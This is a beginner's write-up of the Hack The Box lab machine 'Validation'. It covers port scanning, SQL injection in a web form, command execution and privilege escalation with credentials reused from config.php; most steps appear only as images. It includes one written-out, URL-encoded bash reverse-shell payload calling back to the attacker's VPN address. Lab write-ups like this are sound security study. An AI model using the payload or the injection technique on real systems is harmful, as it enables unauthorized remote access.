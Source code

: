 # Validation

This is my write-up for the machine called **Validation** located at: [https://app.hackthebox.com/machines/Validation](https://app.hackthebox.com/machines/Validation).&#x20;

{% hint style="info" %}
I am a beginner at penetration testing, so I will be referencing the Official Hack The Box Walk-through for this machine.
{% endhint %}

rustscan: rustscan -a 10.10.11.116

![](<../../.gitbook/assets/image (349) (1) (1) (1) (1).png>)

Going to port 80, we see this page:

![](<../../.gitbook/assets/image (338) (1) (1) (1) (1) (1).png>)

On Hack The Box, I got a hint from one of the tags from the machine:

![](<../../.gitbook/assets/image (352) (1) (1) (1) (1) (1) (1).png>)

It seems that I need to run some type of SQL Injection on the page. After trying a bunch of SQL queries, I ended up running an nmap scan on the machine, since according to the walk-through, I had missed a bunch of open ports using rust scan:

![](<../../.gitbook/assets/image (350) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

After I got stuck, I found [this write-up](https://solomon-sec.com/hack-the-box-validation-walkthrough/) that basically made it understand where the vulnerability was:

![](<../../.gitbook/assets/image (345) (1) (1) (1) (1) (1).png>)

I then got the following output:

![](<../../.gitbook/assets/image (342) (1) (1) (1) (1).png>)

This showed me that this is vulnerable to SQL Injection. Viewing the same write-up, I then changed the parameters to then submit to the website:

![](<../../.gitbook/assets/image (351) (1) (1) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (335) (1) (1) (1) (1) (1).png>)

I then got stuck again and then watched [this video](https://youtu.be/dFKsSYVeVbI) that assisted a bit more in the understanding of what I was messing up on. I found out that I had to run the command to get a shell on the system:

![](<../../.gitbook/assets/image (341) (1) (1) (1) (1) (1) (1) (1) (1).png>)

After I ran this command, I was able to run commands on the system:

![](<../../.gitbook/assets/image (328) (1) (1).png>)

Apparently the IP Addresses of the VPN you are using on HTB can change, which was something I did not know. When I ran **ifconfig**, I understood why my reverse shell command was not working when I tried it. In any case, I got the reverse shell by running the following command (recommended by the official write-up and modified to work for me):

`bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.14/1234+0>%261'`

In order to get this to work though, you have to change your request from GET to POST, which can be done by clicking on the button below:

![](<../../.gitbook/assets/image (340) (1) (1) (1) (1) (1) (1).png>)

You can then submit the command, as seen in the image above. After I had the shell, the first thing I did was find the user.txt file:

![](<../../.gitbook/assets/image (344) (1) (1) (1) (1) (1).png>)

I was trying to find a way to upload **linpeas.sh** or get a way to see what access I had, but I ended up getting nowhere. On the official write-up, the credentials I had seen earlier in config.php, were the credentials for the root user:

![](<../../.gitbook/assets/image (329) (1) (1) (1) (1).png>)

I was then able to get the flag using the root access.
